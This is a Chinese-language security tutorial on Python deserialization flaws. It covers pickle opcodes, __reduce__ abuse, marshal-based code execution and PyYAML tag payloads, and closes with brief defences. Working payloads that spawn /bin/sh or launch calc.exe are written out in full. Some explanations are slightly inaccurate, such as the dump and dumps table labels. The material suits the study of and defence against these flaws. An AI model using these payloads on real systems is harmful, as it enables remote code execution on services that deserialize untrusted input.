










# Python安全学习—Python反序列化漏洞

Author: H3rmesk1t

Data: 2022.03.24

# 简介
`Python`的序列化和反序列化是将一个类对象向字节流转化从而进行存储和传输, 然后使用的时候再将字节流转化回原始的对象的一个过程, 这个和其他语言的序列化与反序列化其实都差不多.

`Python`中序列化一般有两种方式: `pickle`模块和`json`模块, 前者是`Python`特有的格式, 后者是`json`通用的格式.

相较于`PHP`反序列化灵活多样的利用方式, 例如`POP`链构造, `Phar`反序列化, 原生类反序列化以及字符逃逸等. `Python`相对而言没有`PHP`那么灵活, 关于反序列化漏洞主要涉及这么几个概念: `pickle`, `pvm`, `__reduce__`魔术方法. 本文主要来看看`pickle`模块的反序列化漏洞问题.

# Pickle
## 简介
`Pickle`可以用于`Python`特有的类型和`Python`的数据类型间进行转换(所有`Python`数据类型).

`Python`提供两个模块来实现序列化: `cPickle`和`pickle`. 这两个模块功能是一样的, 区别在于`cPickle`是`C`语言写的, 速度快; `pickle`是纯`Python`写的, 速度慢. 在`Python3`中已经没有`cPickle`模块. `pickle`有如下四种操作方法:

|函数|说明|
|:----|:----|
|dump|	对象反序列化到文件对象并存入文件|
|dumps|	对象反序列化为 bytes 对象|
|load|	对象反序列化并从文件中读取数据|
|loads|	从 bytes 对象反序列化|

## 简单使用
### 序列化操作
 - 代码
```python
import pickle

class Demo():
    def __init__(self, name='h3rmesk1t'):
        self.name = name

print(pickle.dumps(Demo()))
```

 - Python3

```python
b'\x80\x04\x95/\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04Demo\x94\x93\x94)\x81\x94}\x94\x8c\x04name\x94\x8c\th3rmesk1t\x94sb.'
```

 - Python2

```python
(i__main__
Demo
p0
(dp1
S'name'
p2
S'h3rmesk1t'
p3
sb.
```

输出的一大串字符实际上是一串`PVM`操作码, 可以在`pickle.py`中看到关于这些操作码的详解.

<div align=center></div>

### 反序列化操作

```python
import pickle

class Demo():
    def __init__(self, name='h3rmesk1t'):
        self.name = name

print('[+] 序列化')
print(pickle.dumps(Demo()))
print('[+] 反序列化')
print(pickle.loads(pickle.dumps(Demo())).name)
```

<div align=center></div>

## PVM
### 组成部分
`PVM`由三个部分组成:
 - 指令处理器: 从流中读取`opcode`和参数, 并对其进行解释处理. 重复这个动作, 直到遇到`.`这个结束符后停止, 最终留在栈顶的值将被作为反序列化对象返回.
 - 栈区(`stack`): 由`Python`的`list`实现, 被用来临时存储数据、参数以及对象, 在不断的进出栈过程中完成对数据流的反序列化操作, 并最终在栈顶生成反序列化的结果.
 - 标签区(`memo`): 由`Python`的`dict`实现, 为`PVM`的整个生命周期提供存储.

### 执行流程
首先, `PVM`会把源代码编译成字节码, 字节码是`Python`语言特有的一种表现形式, 它不是二进制机器码, 需要进一步编译才能被机器执行. 如果`Python`进程在主机上有写入权限, 那么它会把程序字节码保存为一个以`.pyc`为扩展名的文件. 如果没有写入权限, 则`Python`进程会在内存中生成字节码, 在程序执行结束后被自动丢弃.

一般来说, 在构建程序时最好给`Python`进程在主机上的写入权限, 这样只要源代码没有改变, 生成的`.pyc`文件就可以被重复利用, 提高执行效率, 同时隐藏源代码.

然后, `Python`进程会把编译好的字节码转发到`PVM`(`Python`虚拟机)中, `PVM`会循环迭代执行字节码指令, 直到所有操作被完成.

### 指令集
当前用于`pickling`的协议共有`6`种, 使用的协议版本越高, 读取生成的`pickle`所需的`Python`版本就要越新.
 - `v0`版协议是原始的"人类可读"协议, 并且向后兼容早期版本的`Python`.
 - `v1`版协议是较早的二进制格式, 它也与早期版本的`Python`兼容.
 - `v2`版协议是在`Python 2.3`中引入的, 它为存储`new-style class`提供了更高效的机制, 参阅`PEP 307`.
 - `v3`版协议添加于`Python 3.0`, 它具有对`bytes`对象的显式支持, 且无法被`Python 2.x`打开, 这是目前默认使用的协议, 也是在要求与其他`Python 3`版本兼容时的推荐协议.
 - `v4`版协议添加于`Python 3.4`, 它支持存储非常大的对象, 能存储更多种类的对象, 还包括一些针对数据格式的优化, 参阅`PEP 3154`.
 - `v5`版协议添加于`Python 3.8`, 它支持带外数据, 加速带内数据处理.


```python
# Pickle opcodes.  See pickletools.py for extensive docs.  The listing
# here is in kind-of alphabetical order of 1-character pickle code.
# pickletools groups them by purpose.

MARK           = b'('   # push special markobject on stack
STOP           = b'.'   # every pickle ends with STOP
POP            = b'0'   # discard topmost stack item
POP_MARK       = b'1'   # discard stack top through topmost markobject
DUP            = b'2'   # duplicate top stack item
FLOAT          = b'F'   # push float object; decimal string argument
INT            = b'I'   # push integer or bool; decimal string argument
BININT         = b'J'   # push four-byte signed int
BININT1        = b'K'   # push 1-byte unsigned int
LONG           = b'L'   # push long; decimal string argument
BININT2        = b'M'   # push 2-byte unsigned int
NONE           = b'N'   # push None
PERSID         = b'P'   # push persistent object; id is taken from string arg
BINPERSID      = b'Q'   #  "       "         "  ;  "  "   "     "  stack
REDUCE         = b'R'   # apply callable to argtuple, both on stack
STRING         = b'S'   # push string; NL-terminated string argument
BINSTRING      = b'T'   # push string; counted binary string argument
SHORT_BINSTRING= b'U'   #  "     "   ;    "      "       "      " < 256 bytes
UNICODE        = b'V'   # push Unicode string; raw-unicode-escaped'd argument
BINUNICODE     = b'X'   #   "     "       "  ; counted UTF-8 string argument
APPEND         = b'a'   # append stack top to list below it
BUILD          = b'b'   # call __setstate__ or __dict__.update()
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
DICT           = b'd'   # build a dict from stack items
EMPTY_DICT     = b'}'   # push empty dict
APPENDS        = b'e'   # extend list on stack by topmost stack slice
GET            = b'g'   # push item from memo on stack; index is string arg
BINGET         = b'h'   #   "    "    "    "   "   "  ;   "    " 1-byte arg
INST           = b'i'   # build & push class instance
LONG_BINGET    = b'j'   # push item from memo on stack; index is 4-byte arg
LIST           = b'l'   # build list from topmost stack items
EMPTY_LIST     = b']'   # push empty list
OBJ            = b'o'   # build & push class instance
PUT            = b'p'   # store stack top in memo; index is string arg
BINPUT         = b'q'   #   "     "    "   "   " ;   "    " 1-byte arg
LONG_BINPUT    = b'r'   #   "     "    "   "   " ;   "    " 4-byte arg
SETITEM        = b's'   # add key+value pair to dict
TUPLE          = b't'   # build tuple from topmost stack items
EMPTY_TUPLE    = b')'   # push empty tuple
SETITEMS       = b'u'   # modify dict by adding topmost key+value pairs
BINFLOAT       = b'G'   # push float; arg is 8-byte float encoding

TRUE           = b'I01\n'  # not an opcode; see INT docs in pickletools.py
FALSE          = b'I00\n'  # not an opcode; see INT docs in pickletools.py

# Protocol 2

PROTO          = b'\x80'  # identify pickle protocol
NEWOBJ         = b'\x81'  # build object by applying cls.__new__ to argtuple
EXT1           = b'\x82'  # push object from extension registry; 1-byte index
EXT2           = b'\x83'  # ditto, but 2-byte index
EXT4           = b'\x84'  # ditto, but 4-byte index
TUPLE1         = b'\x85'  # build 1-tuple from stack top
TUPLE2         = b'\x86'  # build 2-tuple from two topmost stack items
TUPLE3         = b'\x87'  # build 3-tuple from three topmost stack items
NEWTRUE        = b'\x88'  # push True
NEWFALSE       = b'\x89'  # push False
LONG1          = b'\x8a'  # push long from < 256 bytes
LONG4          = b'\x8b'  # push really big long

_tuplesize2code = [EMPTY_TUPLE, TUPLE1, TUPLE2, TUPLE3]

# Protocol 3 (Python 3.x)

BINBYTES       = b'B'   # push bytes; counted binary string argument
SHORT_BINBYTES = b'C'   #  "     "   ;    "      "       "      " < 256 bytes

# Protocol 4

SHORT_BINUNICODE = b'\x8c'  # push short string; UTF-8 length < 256 bytes
BINUNICODE8      = b'\x8d'  # push very long string
BINBYTES8        = b'\x8e'  # push very long bytes string
EMPTY_SET        = b'\x8f'  # push empty set on the stack
ADDITEMS         = b'\x90'  # modify set by adding topmost stack items
FROZENSET        = b'\x91'  # build frozenset from topmost stack items
NEWOBJ_EX        = b'\x92'  # like NEWOBJ but work with keyword only arguments
STACK_GLOBAL     = b'\x93'  # same as GLOBAL but using names on the stacks
MEMOIZE          = b'\x94'  # store top of the stack in memo
FRAME            = b'\x95'  # indicate the beginning of a new frame

# Protocol 5

BYTEARRAY8       = b'\x96'  # push bytearray
NEXT_BUFFER      = b'\x97'  # push next out-of-band buffer
READONLY_BUFFER  = b'\x98'  # make top of stack readonly
```

上文谈到了`opcode`是有多个版本的, 在进行序列化时可以通过`protocol=num`来选择`opcode`的版本, 指定的版本必须小于等于`5`.

```python
import os
import pickle

class Demo():
    def __init__(self, name='h3rmesk1t'):
        self.name = name
    
    def __reduce__(self):
        return (os.system, ('whoami',))


demo = Demo()
for i in range(6):
    print('[+] pickle v{}: {}'.format(str(i), pickle.dumps(demo, protocol=i)))
```

```python
[+] pickle v0: b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
[+] pickle v1: b'cposix\nsystem\nq\x00(X\x06\x00\x00\x00whoamiq\x01tq\x02Rq\x03.'
[+] pickle v2: b'\x80\x02cposix\nsystem\nq\x00X\x06\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v3: b'\x80\x03cposix\nsystem\nq\x00X\x06\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v4: b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
[+] pickle v5: b'\x80\x05\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
```

<div align=center></div>

基本模式:

```python
c<module>
<callable>
(<args>
tR.
```

这里用一段简短的字节码来演示利用过程:

```python
cos
system
(S'whoami'
tR.
```

<div align=center></div>

上文中的字节码其实就是`__import__('os').system(*('whoami',))`, 下面来分解分析一下:

```bash
cos         =>  引入模块 os.
system      =>  引用 system, 并将其添加到 stack.
(S'whoami'  =>  把当前 stack 存到 metastack, 清空 stack, 再将 'whoami' 压入 stack.
t           =>  stack 中的值弹出并转为 tuple, 把 metastack 还原到 stack, 再将 tuple 压入 stack.
R           =>  system(*('whoami',)).
.           =>  结束并返回当前栈顶元素.
```

需要注意的是, 并不是所有的对象都能使用`pickle`进行序列化和反序列化, 例如文件对象和网络套接字对象以及代码对象就不可以.

# 反序列化漏洞
## 漏洞常见出现地方
 1. 通常在解析认证`token`, `session`的时候. 现在很多`Web`服务都使用`redis`、`mongodb`、`memcached`等来存储`session`等状态信息.

 2. 可能将对象`Pickle`后存储成磁盘文件.

 3. 可能将对象`Pickle`后在网络中传输.

## 漏洞利用方式
漏洞产生的原因在于其可以将自定义的类进行序列化和反序列化, 反序列化后产生的对象会在结束时触发`__reduce__()`函数从而触发恶意代码.

<div align=center></div>

简单来说, `__reduce__()`魔术方法类似于`PHP`中的`__wakeup()`方法, 在反序列化时会先调用`__reduce__()`魔术方法. 
 1. 如果返回值是一个字符串, 那么将会去当前作用域中查找字符串值对应名字的对象, 将其序列化之后返回.
 2. 如果返回值是一个元组, 要求是`2`到`6`个参数(`Python3.8`新加入元组的第六项).
    1. 第一个参数是可调用的对象.
    2. 第二个是该对象所需的参数元组, 如果可调用对象不接受参数则必须提供一个空元组.
    3. 第三个是用于表示对象的状态的可选元素, 将被传给前述的`__setstate__()`方法, 如果对象没有此方法, 则这个元素必须是字典类型并会被添加至`__dict__`属性中.
    4. 第四个是用于返回连续项的迭代器的可选元素.
    5. 第五个是用于返回连续键值对的迭代器的可选元素.
    6. 第六个是一个带有`(obj, state)`签名的可调用对象的可选元素.

## 基本 Payload

```python
import os
import pickle

class Demo(object):
    def __reduce__(self):
        shell = '/bin/sh'
        return (os.system,(shell,))

demo = Demo()
pickle.loads(pickle.dumps(demo))
```

<div align=center></div>

# Marshal 反序列化
由于`pickle`无法序列化`code`对象, 因此在`python2.6`后增加了一个`marshal`模块来处理`code`对象的序列化问题.

```pyhon
import base64
import marshal

def demo():
    import os
    os.system('/bin/sh')

code_serialized = base64.b64encode(marshal.dumps(demo()))
print(code_serialized)
```

<div align=center></div>

但是`marshal`不能直接使用`__reduce__`, 因为`reduce`是利用调用某个`callable`并传递参数来执行的, 而`marshal`函数本身就是一个`callable`, 需要执行它, 而不是将他作为某个函数的参数. 

这时候就要利用上面分析的那个`PVM`操作码来进行构造了, 先写出来需要执行的内容, `Python`能通过`types.FunctionTyle(func_code,globals(),'')()`来动态地创建匿名函数, 这一部分的内容可以看[官方文档](https://docs.python.org/3/library/types.html)的介绍.

结合上文的示例代码, 最重要执行的是: `(types.FunctionType(marshal.loads(base64.b64decode(code_enc)), globals(), ''))()`.

这里直接贴一下别的师傅给出来的`Payload`模板.

```python
import base64
import pickle
import marshal

def foo():
    import os
    os.system('whoami;/bin/sh')     # evil code

shell = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))

print(pickle.loads(shell))
```

<div align=center></div>

# PyYAML 反序列化
## 漏洞点
找到`yaml/constructor.py`文件, 查看文件代码中的三个特殊`Python`标签的源码:
 - `!!python/object`标签.
 - `!!python/object/new`标签.
 - `!!python/object/apply`标签.

<div align=center></div>

这三个`Python`标签中都是调用了`make_python_instance`函数, 跟进查看该函数. 可以看到, 在该函数是会根据参数来动态创建新的`Python`类对象或通过引用`module`的类创建对象, 从而可以执行任意命令.


<div align=center></div>

## Payload(PyYaml < 5.1)

```yaml
!!python/object/apply:os.system ["calc.exe"]
!!python/object/new:os.system ["calc.exe"]    
!!python/object/new:subprocess.check_output [["calc.exe"]]
!!python/object/apply:subprocess.check_output [["calc.exe"]]
```

## Pyload(PyYaml >= 5.1)

```python
from yaml import *
data = b"""!!python/object/apply:subprocess.Popen
 - calc"""
deserialized_data = load(data, Loader=Loader)
print(deserialized_data)
```

```python
from yaml import *
data = b"""!!python/object/apply:subprocess.Popen
- calc"""
deserialized_data = unsafe_load(data) 
print(deserialized_data)
```

# 防御方法
 - 采用用更高级的接口`__getnewargs()`、`__getstate__()`、`__setstate__()`等代替`__reduce__()`魔术方法.
 - 进行反序列化操作之前进行严格的过滤, 若采用的是`pickle`库可采用装饰器实现.

# 参考
 - [一篇文章带你理解漏洞之 Python 反序列化漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BPython%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)